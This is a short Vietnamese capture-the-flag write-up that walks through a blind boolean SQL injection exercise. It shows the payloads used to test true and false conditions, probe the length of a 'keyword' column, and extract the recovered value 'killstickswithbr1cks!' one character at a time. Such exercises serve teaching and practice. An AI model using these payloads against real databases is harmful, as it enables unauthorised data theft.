


## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 6/5/2022

- Đầu tiên, ta sẽ check boolean với <code>and 1=1</code> và <code>and 1=2</code>
  
  

- Như vậy, kết quả trả về <code>Query returned 1 rows.</code> nếu đúng và <code>Query returned 0 rows.</code> nếu sai.
- Tiếp theo, ta sẽ kiểm tra mù độ dài cột keyword với <code>and (select LENGTH(keyword) from level4_secret LIMIT 1)>1--</code>.
  
  

- Sau khi thử liên tục thì ta được độ dài cột keyword là 21.
  
  

- Tiếp theo, ta check mù từng kí tự với <code>and ascii(substring((SELECT keyword from level4_secret limit 0,1),1,1))>1--</code>
  
  

- Sau 1 hồi lâu, ta biết được kí tự đầu tiên là <code>k</code>.
  
  

- Sau đó tăng thứ tự lên <code>and ascii(substring((SELECT keyword from level4_secret limit 0,1),2,1))>1--</code>
- Sau nhiều lần thử, ta được keyword là <code>killstickswithbr1cks!</code>
  
  